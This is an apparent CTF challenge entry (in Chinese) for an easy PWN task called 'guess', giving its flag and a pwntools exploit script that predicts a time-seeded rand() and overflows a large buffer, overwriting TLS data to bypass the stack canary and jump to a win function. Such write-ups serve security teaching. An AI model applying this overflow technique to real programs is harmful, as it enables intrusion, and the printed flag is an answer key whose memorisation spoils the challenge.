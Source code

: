 - **题目名称：** guess
- **题目类型：** PWN
- **题目难度：** 简单
- **出题人：** she1p
- **考点：**

1. time随机数
2. TLS结构体绕canary

- **描述：** 猜中就给flag哦
- **flag：** XSCTF{W0w_y0u_Ar3_New_n3vv}
- **Writeup：**

```python
#ubuntu20.04
from pwn import *
from ctypes import *
import time
context(log_level='debug',arch='amd64',os='linux')
p=process('./guess')
dll = cdll.LoadLibrary("libc.so.6")

#p.sendlineafter('please input your choice: \n',b'1')
#p.recvuntil('the random number is : ')
#num=p.recvuntil(' \n')[:-1]
#num=num[:-1]
time_seed=int(time.time())
print(hex(time_seed))
seed = dll.srand(time_seed)
#rand_num = str(dll.rand())

rand = str(dll.rand())
print(rand)
p.sendlineafter('please input your choice: \n',b'2')
p.sendline(rand)

p.sendlineafter("Congrate! What's your name?\n",b'a'*0xa)
flag=0x40135d
pd=b'a'*0x1018+p64(flag)
pd=pd.ljust(0x1850,b'a')
p.sendlineafter('Can you give us some feedback?\n',pd)
p.interactive()
```

